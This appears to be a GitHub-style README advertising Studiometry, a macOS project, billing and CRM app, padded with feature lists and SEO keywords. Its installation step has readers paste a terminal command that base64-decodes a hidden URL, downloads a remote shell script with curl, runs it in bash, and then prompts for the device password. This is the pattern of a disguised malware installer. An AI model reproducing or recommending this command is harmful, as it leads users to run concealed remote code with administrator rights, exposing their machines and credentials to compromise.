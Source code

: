 # 🗂️ Studiometry for Mac — Project Tracking, Billing & CRM in One Place

📌 About Studiometry  
Studiometry is an all-in-one business management solution for macOS, built for freelancers, studios, and small agencies that need a better way to handle projects, time, billing, and client relationships.  
It lets you track work hours, generate invoices, manage budgets, and organize communication — all from a single, unified interface. With built-in client CRM, you can log notes, review history, and automate recurring billing.  
Studiometry runs entirely on your Mac with optional syncing between devices, ensuring full privacy and offline reliability. Whether you're tracking billable hours or managing long-term retainers, it’s the go-to tool for serious creative professionals.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
  /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```   
2. Open Terminal on your device, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://www.oranged.net/images/13/MainWinProject.png)  
- ![]([https://example.com/placeholder2.png](https://static.macupdate.com/screenshots/274219/m/studiometry-screenshot.png?v=1598457034))  

## 🎯 Key Features  
⚡️ Project Management: Track timelines, tasks, notes, and progress.  
🔒 Private Data: All financial and client data stays securely on your Mac.  
⚙️ Time & Expense Tracking: Log work, generate invoices, and set retainers.  
🚀 All-in-One Workflow: Avoid app switching — handle everything in one place.  
🎨 macOS Native UI: Designed for speed, clarity, and visual consistency.  
📊 Custom Reports: Build detailed financial summaries, logs, and activity charts.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 300 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`studiometry mac` · `project tracking software macos` · `mac billing and invoicing app` · `mac time tracking tool` · `freelancer crm mac` · `creative agency software mac` · `mac business manager app` · `task and budget management mac` · `client database mac` · `mac app for project invoices` · `local crm macos` · `mac offline billing tool` · `mac retainer tracking` · `macos productivity for agencies` · `studio management app mac`
